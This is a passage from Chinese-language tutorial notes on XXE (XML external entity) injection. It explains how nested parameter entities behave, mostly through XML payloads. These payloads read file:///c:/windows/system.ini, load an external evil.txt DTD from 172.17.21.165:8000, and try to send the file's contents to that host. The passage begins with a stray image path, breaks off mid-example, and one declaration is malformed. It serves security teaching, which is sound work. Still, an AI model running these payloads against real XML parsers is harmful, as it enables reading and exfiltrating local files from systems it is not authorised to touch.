         
        http://172.17.21.165:8000/evil.txt文件内容
        <!ENTITY b SYSTEM "file:///c:/windows/system.ini">
        ```

- **嵌套参数实体：**

    - 在一个xml文件中，实体(普通实体，或者参数实体)的值，不允许使用任何其他参数实体，也不能嵌套使用参数实体。

        - ```xml-dtd
            在实体的值里面使用参数实体是没有用的
            <?xml version="1.0"?>
            
            <!DOCTYPE ANY[
                <!ENTITY % a SYSTEM 'file:///c:/windows/system.ini' >
                <!ENTITY send SYSTEM 'http://172.17.21.165:8000/?a=%a;' >
            ]> 
            <root>&send;</root>
            ```

    - 但是参数实体的值，是可以使用其他文件的参数实体的值的。

        ```xml-dtd
        <?xml version="1.0"?>
        
        <!DOCTYPE data 
            [<!ENTITY % dtd SYSTEM "http://172.17.21.165:8000/evil.txt"> 
                %dtd; 
                %all;
        ]> 
        <a>&send;</a>
        
        
        http://172.17.21.165:8000/evil.txt
         <!ENTITY % all "<!ENTITY send SYSTEM 'file:///c:/windows/system.ini'>" >
        
        ```

    - 解析过程：

        - ```xml-dtd
            <?xml version="1.0"?>
            
            <!DOCTYPE data 
                [<!ENTITY % dtd SYSTEM "<!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost:88%file;'>">"> 
                    %dtd; 
                    %all;
            ]> 
            <a>&send;</a>
            
            
            实例化%dtd
            <?xml version="1.0"?>
            <!DOCTYPE data [
             	<!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost:88%file;'>">
            	%all; 
            ]> 
            <a>&send;</a>
            